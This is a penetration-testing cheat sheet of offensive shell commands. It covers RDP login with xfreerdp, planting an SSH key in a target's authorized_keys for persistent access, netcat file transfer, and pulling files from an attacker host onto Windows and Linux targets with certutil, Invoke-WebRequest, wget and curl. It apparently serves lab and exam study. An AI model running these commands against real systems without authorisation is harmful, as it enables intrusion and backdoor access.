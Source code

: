 ## Connecting to RDP

```bash
xfreerdp /u:uname /p:'pass' /v:IP
xfreerdp /d:domain.com /u:uname /p:'pass' /v:IP
xfreerdp /u:uname /p:'pass' /v:IP +clipboard #try this option if normal login doesn't work
```

## Adding SSH Public key

- This can be used to get ssh session, on target machine which is based on linux

```jsx
ssh-keygen -t rsa -b 4096 #give any password

#This created both id_rsa and id_rsa.pub in ~/.ssh directory
#Copy the content in "id_rsa.pub" and create ".ssh" directory in /home of target machine.
chmod 700 ~/.ssh
nano ~/.ssh/authorized_keys #enter the copied content here
chmod 600 ~/.ssh/authorized_keys 

#On Attacker machine
ssh username@target_ip #enter password if you gave any
```

## File Transfers

- Netcat

```bash
#Attacker
nc <target_ip> 1234 < nmap

#Target
nc -lvp 1234 > nmap
```

- Downloading on Windows

```powershell
powershell -command Invoke-WebRequest -Uri http://<LHOST>:<LPORT>/<FILE> -Outfile C:\\temp\\<FILE>
iwr -uri http://lhost/file -Outfile file
certutil -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>
copy \\kali\share\file .
```

- Downloading on Linux

```powershell
wget http://lhost/file
curl http://<LHOST>/<FILE> > <OUTPUT_FILE>
```

### Windows to Kali
